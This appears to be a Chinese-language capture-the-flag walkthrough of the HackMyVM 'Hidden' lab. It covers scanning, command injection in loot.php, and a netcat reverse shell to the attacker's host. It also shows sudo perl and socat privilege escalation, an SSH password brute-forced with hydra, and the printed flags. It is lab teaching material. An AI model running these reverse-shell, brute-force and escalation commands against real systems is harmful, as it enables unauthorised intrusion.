




# 信息搜集
主机发现

```bash
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f7:03:e6, IPv4: 192.168.21.13
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.21.1    cc:e0:da:eb:34:a2       Baidu Online Network Technology (Beijing) Co., Ltd
192.168.21.2    04:6c:59:bd:33:50       Intel Corporate
192.168.21.7    08:00:27:62:44:70       PCS Systemtechnik GmbH
192.168.21.4    c2:ab:39:9e:98:94       (Unknown: locally administered)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.972 seconds (129.82 hosts/sec). 4 responded
```
端口扫描

```bash
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f7:03:e6, IPv4: 192.168.21.13
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.21.1    cc:e0:da:eb:34:a2       Baidu Online Network Technology (Beijing) Co., Ltd
192.168.21.2    04:6c:59:bd:33:50       Intel Corporate
192.168.21.7    08:00:27:62:44:70       PCS Systemtechnik GmbH
192.168.21.4    c2:ab:39:9e:98:94       (Unknown: locally administered)

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 1.972 seconds (129.82 hosts/sec). 4 responded
                                                                
┌──(root㉿kali)-[~]
└─# nmap --min-rate 10000 -p- 192.168.21.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 01:06 EDT
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:62:44:70 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.87 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sU --min-rate 10000 -p- 192.168.21.7
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 01:06 EDT
Warning: 192.168.21.7 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00049s latency).
All 65535 scanned ports on 192.168.21.7 (192.168.21.7) are in ignored states.
Not shown: 65457 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
MAC Address: 08:00:27:62:44:70 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 72.90 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sT -sV -O -p22,80 192.168.21.7      
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-17 01:08 EDT
Nmap scan report for 192.168.21.7 (192.168.21.7)
Host is up (0.00026s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
MAC Address: 08:00:27:62:44:70 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.65 seconds
```
# 漏洞利用
目录扫描，什么也没有

```bash
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.21.7 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,jpg,png,git
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.7
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              png,git,html,php,txt,jpg
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 392]
/.html                (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/.php                 (Status: 403) [Size: 277]
/.html                (Status: 403) [Size: 277]
/server-status        (Status: 403) [Size: 277]
Progress: 1453501 / 1453508 (100.00%)
===============================================================
Finished
===============================================================

```
看一下有什么


```bash
┌──(root㉿kali)-[~]
└─# curl http://192.168.21.7                 
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="utf-8">
        <title>Level 1</title>
        <style>
                body{
                        background-color: #b0b0b0;
                }
        </style>
    </head>

    <body> 
        <h1><center>Welcome to level 1</center></h1>
                <center></center>
    </body> 
    <!-- format xxx.xxxxxx.xxx -->
</html> 
```
解密一下得到：SYSHIDDENHMV


修改一下/etc/hosts，结合提示<!-- format xxx.xxxxxx.xxx -->

```bash
192.168.21.7   sys.hidden.hmv
```
访问一下



目录扫描

```bash
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://sys.hidden.hmv -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,jpg,png,git
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sys.hidden.hmv
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              git,html,php,txt,jpg,png
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 282]
/users                (Status: 301) [Size: 316] [--> http://sys.hidden.hmv/users/]                                              
/members              (Status: 301) [Size: 318] [--> http://sys.hidden.hmv/members/]                                            
/weapon               (Status: 301) [Size: 317] [--> http://sys.hidden.hmv/weapon/]                                             
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
/server-status        (Status: 403) [Size: 279]
Progress: 1453501 / 1453508 (100.00%)
===============================================================
Finished
===============================================================
```
看一下都有什么



```bash
┌──(root㉿kali)-[~]
└─# curl http://sys.hidden.hmv/users
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://sys.hidden.hmv/users/">here</a>.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at sys.hidden.hmv Port 80</address>
</body></html>
                                                                
┌──(root㉿kali)-[~]
└─# curl http://sys.hidden.hmv/mebers
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at sys.hidden.hmv Port 80</address>
</body></html>
                                                                
┌──(root㉿kali)-[~]
└─# curl http://sys.hidden.hmv/weapon
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>301 Moved Permanently</title>
</head><body>
<h1>Moved Permanently</h1>
<p>The document has moved <a href="http://sys.hidden.hmv/weapon/">here</a>.</p>
<hr>
<address>Apache/2.4.38 (Debian) Server at sys.hidden.hmv Port 80</address>
</body></html>
```
尝试进一步目录扫描

```bash                                                       
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://sys.hidden.hmv/weapon -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -x html,php,txt,jpg,png,git,zip
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://sys.hidden.hmv/weapon
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              txt,jpg,png,git,zip,html,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.php                 (Status: 403) [Size: 279]
/.html                (Status: 403) [Size: 279]
/index.html           (Status: 200) [Size: 0]
/loot.php             (Status: 200) [Size: 0]
/.html                (Status: 403) [Size: 279]
/.php                 (Status: 403) [Size: 279]
Progress: 1661144 / 1661152 (100.00%)
===============================================================
Finished
===============================================================
```
看一下有什么，还是什么都没有

```bash
┌──(root㉿kali)-[~]
└─# curl http://sys.hidden.hmv/weapon/index.html
                                                                
┌──(root㉿kali)-[~]
└─# curl http://sys.hidden.hmv/weapon/loot.php
```
只能尝试模糊测试了

```bash
┌──(root㉿kali)-[~]
└─# ffuf -u http://sys.hidden.hmv/weapon/loot.php?FUZZ=id -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -c --fs 0    

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://sys.hidden.hmv/weapon/loot.php?FUZZ=id
 :: Wordlist         : FUZZ: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 0
________________________________________________

hack                    [Status: 200, Size: 54, Words: 3, Lines: 2, Duration: 29ms]
```
那就反弹个shell看看吧

```bash
http://sys.hidden.hmv/weapon/loot.php?hack=nc -e /bin/sh 192.168.21.13 4444;
```
反弹回来了

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvp 4444          
listening on [any] 4444 ...
connect to [192.168.21.13] from sys.hidden.hmv [192.168.21.7] 34410
python -c "import pty;pty.spawn('/bin/bash')"
www-data@hidden:/var/www/hidden/weapon$ 
```
# 提权
看一下有什么
```bash
www-data@hidden:/var/www/hidden/weapon$ sudo -l
sudo -l
Matching Defaults entries for www-data on hidden:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User www-data may run the following commands on hidden:
    (toreto) NOPASSWD: /usr/bin/perl
www-data@hidden:/var/www/hidden/weapon$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
atenea:x:1000:1001:,,,:/home/atenea:/bin/bash
toreto:x:1001:1000:,,,:/home/toreto:/bin/bash
```
发现可以利用的地方



成功切换到了toreto下
```bash
www-data@hidden:/var/www/hidden/weapon$ sudo -u toreto /usr/bin/perl -e 'exec "/bin/bash";'
<sudo -u toreto /usr/bin/perl -e 'exec "/bin/bash";'
toreto@hidden:/var/www/hidden/weapon$ id
id
uid=1001(toreto) gid=1000(toreto) groups=1000(toreto)
```
需要密码

```bash
toreto@hidden:~$ sudo -l
sudo -l

We trust you have received the usual lecture from the local System
Administrator. It usually boils down to these three things:

    #1) Respect the privacy of others.
    #2) Think before you type.
    #3) With great power comes great responsibility.

[sudo] password for toreto: 
```
找到了一个字典

```bash
toreto@hidden:~$ cd ..
cd ..
toreto@hidden:/home$ ls
ls
atenea  toreto
toreto@hidden:/home$ cd atenea
cd atenea
toreto@hidden:/home/atenea$ ls -la
ls -la
total 36
drwxr-xr-x 4 atenea atenea 4096 May 23  2021 .
drwxr-xr-x 4 root   root   4096 May 24  2021 ..
-rw------- 1 atenea atenea    1 May 25  2021 .bash_history
-rw-r--r-- 1 atenea atenea  220 May 22  2021 .bash_logout
-rw-r--r-- 1 atenea atenea 3526 May 22  2021 .bashrc
drwxr-xr-x 2 atenea atenea 4096 May 22  2021 .hidden
drwxr-xr-x 3 atenea atenea 4096 May 23  2021 .local
-rw-r--r-- 1 atenea atenea  807 May 22  2021 .profile
-rw------- 1 atenea atenea   63 May 23  2021 user.txt
toreto@hidden:/home/atenea$ cat user.txt
cat user.txt
cat: user.txt: Permission denied
toreto@hidden:/home/atenea$ cd .hidden
cd .hidden
toreto@hidden:/home/atenea/.hidden$ ls -la
ls -la
total 16
drwxr-xr-x 2 atenea atenea 4096 May 22  2021 .
drwxr-xr-x 4 atenea atenea 4096 May 23  2021 ..
-rw------- 1 toreto toreto 6170 May 22  2021 atenea.txt
```
爆破一下，然后ssh链接

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l atenea -P 1.txt ssh://192.168.21.7
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-03-17 03:44:33
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 560 login tries (l:1/p:560), ~35 tries per task
[DATA] attacking ssh://192.168.21.7:22/
[STATUS] 271.00 tries/min, 271 tries in 00:01h, 292 to do in 00:02h, 13 active
[STATUS] 222.50 tries/min, 445 tries in 00:02h, 121 to do in 00:01h, 10 active
[22][ssh] host: 192.168.21.7   login: atenea   password: sys8423hmv
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-03-17 03:46:39
┌──(kali㉿kali)-[~]
└─$ ssh atenea@192.168.21.7
The authenticity of host '192.168.21.7 (192.168.21.7)' can't be established.
ED25519 key fingerprint is SHA256:eaX0wlNy3ee4Opm3WL1bs8ykg6lC+2P5DJiu99c7MaI.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.21.7' (ED25519) to the list of known hosts.
atenea@192.168.21.7's password: 
Linux hidden 4.19.0-16-amd64 #1 SMP Debian 4.19.181-1 (2021-03-19) x86_64
     _________
    / ======= \
   / __________\
  | ___________ |
  | | -       | |
  | |         | |
  | |_________| |  ___________________
  \=____________/  Hack_My_VM - Hidden 
  / """"""""""" \  -------------------                     
 / ::::::::::::: \                  
(_________________)

---------------------------------------------------
Congratulations!!! you have reached the last level!
Good Luck! ;)
---------------------------------------------------

Last login: Tue May 25 10:17:05 2021 from 192.168.0.20
atenea@hidden:~$
```
user.txt

```bash
atenea@hidden:~$ ls -la
total 36
drwxr-xr-x 4 atenea atenea 4096 May 23  2021 .
drwxr-xr-x 4 root   root   4096 May 24  2021 ..
-rw------- 1 atenea atenea    1 May 25  2021 .bash_history
-rw-r--r-- 1 atenea atenea  220 May 22  2021 .bash_logout
-rw-r--r-- 1 atenea atenea 3526 May 22  2021 .bashrc
drwxr-xr-x 2 atenea atenea 4096 May 22  2021 .hidden
drwxr-xr-x 3 atenea atenea 4096 May 23  2021 .local
-rw-r--r-- 1 atenea atenea  807 May 22  2021 .profile
-rw------- 1 atenea atenea   63 May 23  2021 user.txt
atenea@hidden:~$ cat user.txt
--------------------
hmv{c4HqWSzRVKNDpTL}
--------------------
```
找一下利用点

```bash
atenea@hidden:~$ sudo -l
Matching Defaults entries for atenea on hidden:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User atenea may run the following commands on hidden:
    (root) NOPASSWD: /usr/bin/socat
```



提权成功

```bash
atenea@hidden:~$ sudo -u root /usr/bin/socat stdin exec:/bin/sh
id
uid=0(root) gid=0(root) groups=0(root)
```
root.txt

```bash
cd ~
ls -la
total 28
drwx------  3 root root 4096 May 25  2021 .
drwxr-xr-x 18 root root 4096 May 19  2021 ..
lrwxrwxrwx  1 root root    9 May 23  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwxr-xr-x  3 root root 4096 May 19  2021 .local
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rw-r--r--  1 root root   63 May 25  2021 root.txt
-rw-r--r--  1 root root   66 May 25  2021 .selected_editor
cat root.txt
--------------------
hmv{2Mxtnwrht0ogHB6}
--------------------
```